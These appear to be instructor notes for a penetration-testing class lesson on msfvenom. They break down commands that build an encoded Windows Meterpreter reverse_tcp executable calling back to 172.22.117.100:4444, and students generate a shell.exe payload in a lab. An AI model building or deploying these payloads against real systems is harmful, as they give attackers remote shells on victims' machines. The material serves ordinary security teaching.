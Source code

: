     - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.


#### Msfvenom Command Structure

Now, we'll cover the basics of the `msfvenom` custom payload command options.

- Display the following command to the class:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=172.22.117.100 LPORT=4444`

   - Break down the syntax:
      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-a x86`: The architecture we will use. The default is `x86`.
      - `-e x86/shikata_ga_nai`: The encoder we will use
      - `-f exe`: The file type to create (in this case, `.exe`)
      - `-o /tmp/hack.exe`: Creates an output file, specifying the file name (`hack.exe`) and location (inside the `/tmp` directory)

- Next, display the command that we used in the previous lesson, and have students break it down themselves: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe R > hack.exe`
      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-f exe`: Creates a `.exe` file type


Explain that in the activity that follows, students will build a custom command in an exploitation attack.

Pause to answer any questions before proceeding.

### 03. Class Do: Msfvenom Payloads (0:20)

We will now generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 

- **Note:** Students should follow along with their own machine. They can follow along with the guide linked below: 

    - [Class Do: Custom Payload with Msfvenom](Activities/01_MSFVenom/README.md)

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](Images/msfvenom.PNG)
